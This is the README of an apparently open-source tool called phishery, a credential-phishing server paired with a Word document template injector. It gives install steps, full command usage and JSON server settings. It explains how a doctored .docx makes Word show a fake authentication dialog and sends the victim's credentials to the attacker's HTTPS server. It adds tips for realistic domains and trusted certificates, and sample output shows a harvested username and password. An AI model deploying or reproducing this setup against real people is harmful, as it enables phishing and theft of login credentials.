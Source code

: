 # phishery

phishery is a Simple SSL Enabled HTTP server with the primary purpose of phishing credentials via Basic Authentication. 

The power of phishery is best demonstrated by setting a Word document's template to a phishery URL. This causes 
Microsoft Word to make a request to the URL, resulting in an Authentication Dialog being shown to the end-user. The
ability to inject any .docx file with a URL is possible using phishery's 
`-i [in docx]`, `-o [out docx]`, and `-u [url]` options.

### Download
Operating system specific packages can be [downloaded from here](https://github.com/ryhanson/phishery/releases).

### Install
Extract the archive, and optionally, install binary to $PATH

```bash
$ tar -xzvf phishery*.tar.gz
$ cd phishery*
$ cp phishery /usr/local/bin
```

### Usage
```text
$ phishery --help

|\   \\\\__   O         __    _      __
| \_/    o \  o  ____  / /_  (_)____/ /_  ___  _______  __
> _   (( <_ oO  / __ \/ __ \/ / ___/ __ \/ _ \/ ___/ / / /
| / \__+___/   / /_/ / / / / (__  ) / / /  __/ /  / /_/ /
|/     |/     / .___/_/ /_/_/____/_/ /_/\___/_/   \__, /
             /_/ Basic Auth Credential Harvester (____/
                 with Word Doc Template Injector

  Start the server  : phishery -s settings.json -c credentials.json
  Inject a template : phishery -u https://secure.site.local/docs -i good.docx -o bad.docx

  Options:
    -h, --help      Show usage and exit.
    -v              Show version and exit.
    -s              The JSON settings file used to setup the server. [default: "settings.json"]
    -c              The JSON file to store harvested credentials. [default: "credentials.json"]
    -u              The phishery URL to use as the Word document template.
    -i              The Word .docx file to inject with a template URL.
    -o              The new Word .docx file with the injected template URL.
```

##### Running the server
Modify the provided settings.json file as needed, by default it should look like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 200,
  "responseFile": "template.dotx",
  "responseHeaders": [
    ["Content-Type", "application/vnd.openxmlformats-officedocument.wordprocessingml.template"]
  ]
}
```

This setup will start the HTTP server on Port *443* with SSL configured to use *server.crt* and *server.key*. 
The basic authentication realm is set to *Secure Document Gateway*.
When any credentials are provided, a *200* response status is sent along with the contents of the included *template.dotx* and
the content type header: *Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.template*.

The settings file may also be configured to output a simple body, by using *responseBody*, like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 404,
  "responseBody": "<h1>Not Found</h1>",
  "responseHeaders": [
    ["Content-Type", "text/html"]
  ]
}
```

The effectiveness of this tool is based mostly on the Domain and Basic Auth Realm used, as that is often all the end user 
will see when triggered from an Office document. Make sure to point your DNS A Records the public IP of the phishery server.

It's recommended that the provided cert is replaced with a trusted one, such as one generated with 
[LetsEncrypt](https://github.com/certbot/certbot). Microsoft Word on OS X will prevent the auth dialog if the cert is invalid.

Once the server is configured and running, all you need to do is embed a phishery URL in a document, or anywhere
else your heart desires. phishery does give you the ability to inject your URL into a Word document as a template, 
instructions on how to do this can be found below.

##### Injecting a Word Document
To inject a Word document with a template URL, you'll need a .docx file and the phishery server URL.

Now run phishery with your document and URL:

```text
$ phishery -url https://secure.site.local/docs -docx good.docx -badocx bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```

Make sure your phishery server is running and available at the URL you used. Now when the Word document
is opened, the victim will be prompted with an authentication dialog.

Now when the victim opens the document, you'll see the following:

```text
$ ./phishery
[+] Credential store initialized at: credentials.json
[+] Starting HTTPS Auth Server on: 0.0.0.0:443
[*] Request Received at 2016-09-25 01:06:28: HEAD https://secure.site.local/docs
[*] Sending Basic Auth response to: 127.0.0.1
[*] New credentials harvested!
[HTTP] Host        : secure.example.local
[HTTP] Request     : /docs
[HTTP] User Agent  : Microsoft Office Word
[HTTP] IP Address  : 127.0.0.1
[AUTH] Username    : john.doe
[AUTH] Password    : Summer15
```